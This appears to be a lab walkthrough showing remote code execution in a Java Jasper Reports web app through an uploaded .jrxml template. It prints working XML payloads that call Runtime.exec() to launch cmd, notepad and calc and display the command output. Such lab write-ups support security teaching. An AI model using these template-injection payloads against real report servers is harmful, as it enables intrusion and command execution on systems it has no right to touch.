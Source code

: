 # LAB 4 WALKTHROUGH: DECENTRALIZATION VULNERABILITY

## Define the target
We have to RCE a Java-based Jasper Reports generator web app like below:

![1.png](img/1.png)

## Investigate

All of us will think about File Upload vulnerabilities firstly, let's wander around the website and do what user usually do!

![2.png](img/2.png)

After getting the `template.jrxml` file, let's edit nothing and submit it to the website:

![png](img/4.png)

Wondering what the template looks like:

![png](img/3.png)

Not very used to `.jrxml` file type, but there is some Java lines here. What if we insert some Java functions here?

## File Upload Vulnerability

Using ChatGPT to generate a `<variable>` tag contains `Scanner` object which takes an InputStream as its parameter, in this case, to execute a command:

```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```

Let's try to launch `cmd` first, the ideal result is the Command Prompt can pop up after submitting the Jasper Report:

![png](img/5.png)

What we received is a report with some information about Windows version and the location of the web hosting file structure. Not kindly what we are expecting!

Now let's try other kinds of commands!

## Vulnerability exploit

```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("notepad").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```
```xml
<textField isStretchWithOverflow="true">
    <reportElement positionType="Float" x="40" y="0" width="110" height="11"/>
    <textElement/>
    <textFieldExpression class="java.lang.String"><![CDATA[$V{myScanner}.next()]]></textFieldExpression>
</textField>
```
Here are the two payloads that hopefully can pop up Windows Notepad. Now insert into the `template.jrxml` file and execute it!

![png](img/6.png)

A bunch of Notepad window pop up here, seems like it works!

Try with the Windows default Calculator app:
```xml
<variable name="myScanner" class="java.util.Scanner" resetType="None">
    <variableExpression><![CDATA[new java.util.Scanner(java.lang.Runtime.getRuntime().exec("calc").getInputStream()).useDelimiter("\\A")]]></variableExpression>
</variable>
```
![png](img/7.png)